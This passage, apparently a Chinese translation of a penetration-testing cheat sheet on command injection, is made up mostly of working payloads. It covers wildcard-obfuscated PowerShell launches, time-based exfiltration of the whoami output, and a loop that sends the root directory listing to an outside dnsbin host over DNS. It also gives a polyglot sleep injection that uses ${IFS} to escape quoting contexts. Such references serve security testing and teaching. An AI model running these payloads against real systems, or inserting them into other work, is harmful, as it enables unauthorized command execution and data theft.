### 通配符绕过

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## 数据窃取

### 基于时间的数据窃取

逐字符提取数据并根据延迟检测正确的值。

* 正确值：等待 5 秒

  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
  real    0m5.007s
  user    0m0.000s
  sys 0m0.000s
  ```

* 错误值：无延迟

  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
  real    0m0.002s
  user    0m0.000s
  sys 0m0.000s
  ```

### 基于 DNS 的数据窃取

基于 [HoLyVieR/dnsbin](https://github.com/HoLyVieR/dnsbin)，也托管在 [dnsbin.zhack.ca](http://dnsbin.zhack.ca/)

1. 访问 [dnsbin.zhack.ca](http://dnsbin.zhack.ca)
2. 执行简单的 'ls'

  ```powershell
  for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
  ```

在线工具检查基于 DNS 的数据窃取：

* [dnsbin.zhack.ca](http://dnsbin.zhack.ca)
* [app.interactsh.com](https://app.interactsh.com)
* [portswigger.net](https://portswigger.net/burp/documentation/collaborator)

## 多语言命令注入

多语言是一种可以在多种编程语言或环境中同时有效且可执行的代码片段。当我们谈论“多语言命令注入”时，我们指的是可以在多个上下文或环境中执行的注入负载。

* 示例 1：

  ```powershell
  Payload: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

  # 单引号和双引号内的命令上下文：
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  ```
